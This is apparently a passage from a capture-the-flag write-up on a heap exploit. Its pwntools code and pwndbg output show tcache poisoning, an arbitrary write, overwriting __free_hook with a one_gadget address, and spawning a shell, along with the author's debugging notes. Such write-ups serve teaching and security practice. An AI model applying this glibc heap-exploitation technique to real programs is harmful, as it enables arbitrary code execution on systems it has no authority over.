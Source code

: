 
#### Gotchas: 
- Due to how write works we need to write a bit of padding for each chunk that we allocated before we reach our target chunk
```python 
free(1)        #  This is chunk2 aka the second half of giant the chunk

write(1000, b'C'*1000 ) 
write(1008, b'D'*1008)

write(0x18 , p64(0x411) + p64(0xdeadbeef) +p64(0xcafebabe))  
```

After running this section we see that we have full control over the tcache bin
```gdb 
pwndbg> bin
tcachebins
0x410 [  2]: 0x18baaa0 ◂— 0xdeadbeef
```

### WIN??? 
Overwrite free_hook with the address of one_gadget and then call free for a shell?


This was probably the hardest part for me. After getting an arbitrary write primitive I ran into so many issues 
#### Gotchas: 
- Remember that the program writes some metadata so we need to allocate at 0xdeadbeef - 24 to get 0xdeadbeef
- The program kept hanging in `__lll_lock_wait_private` for some reason, doing a binary search showed that touching `_IO_stdfile_2_lock` caused it
- Solved this issue by writing nulls instead of A's (Guess it means I'm no longer a pro pwner )
- Before free hook is some more data I didn't want to mess around with so I just allocated at free_hook - 0x50 as it worked the first try here
- This offset can be changed as long as there are 24 bytes of writeable data after that chunk
- To minimize writing I freed all possible chunks leaving  only the free_hook and chunk2 ( could not free this ) 

```python 
free(1)
dummy = malloc(1000) 
hook = malloc(1000)

free(giant)
free(chunk4)
free(dummy)

write(1000 + 0, b'F'*(1000 + 0))   # Can't free chunk2 so just padd it
write(32 + 24, b'\x00'*(32 + 24))     #  Used nulls to avoid touching IO Locks

write(8, p64(libc.address + 0x10a45c))  # One_gadget
p.sendline(b"1")
p.sendline(b"1")   # Call a valid free
p.interactive()  # SHELL :)
```

